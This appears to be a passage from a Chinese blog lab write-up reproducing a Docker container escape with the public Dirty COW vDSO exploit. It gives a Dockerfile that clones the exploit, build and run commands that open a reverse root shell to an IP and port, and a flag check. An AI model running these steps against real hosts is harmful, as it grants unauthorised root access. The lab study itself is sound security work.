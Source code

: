 由于我们使用了国内的Docker仓库，所以也许需要在`Dockerfile`下稍微改动一下。这里同样涉及到更新源的问题。同样地，我在`Dockerfile`把源先给更换成了上海交通大学的源。

所以最终我们实验的`Dockerfile`如下：

```dockerfile
FROM registry.docker-cn.com/library/ubuntu:14.04

RUN mv /etc/apt/sources.list /etc/apt/sources.list.bak

ADD ./sources.list /etc/apt/
RUN apt-get update
RUN apt-get install -y build-essential
RUN apt-get install -y nasm
RUN apt-get install -y git

RUN useradd --create-home ubuntu
WORKDIR /home/ubuntu/
RUN git clone https://github.com/scumjr/dirtycow-vdso.git
RUN chown -R ubuntu:ubuntu /home/ubuntu/dirtycow-vdso

EXPOSE 1234

CMD /bin/bash
```

执行下面的命令来创建并运行容器：

```bash
docker-compose run dirtycow /bin/bash
```

**注意：除了之前的环境搭建外，到目前为止，以上操作均在普通用户权限下进行（我这里的普通用户叫做`br`），也没有任何的`sudo`！**

建议到这里也可以对VM做一个快照。这个Docker逃逸只能做一次，成功后退出`root shell`再次执行攻击时会失败，具体原因我还没有深入了解。

进入以后执行：

```bash
su ubuntu
cd /home/ubuntu/dirtycow-vdso
make
./0xdeadbeef 172.18.0.2:10000
```

由于最后获得的事实上是一个反弹shell，所以要给出反弹的IP和端口。端口可以随意设置，IP可以用`ifconfig`查看。我对Docker的网络机制不了解，以后记得去研究一下。

看一下截图：

![]({{ site.url }}/images/dirtycow/dirtycow-docker-0.png)

我们在VM中以`root`权限创建`/root/flag`并写入

```bash
flag{Welcome_2_the_real_world}
```

![]({{ site.url }}/images/dirtycow/dirtycow-docker-1.png)
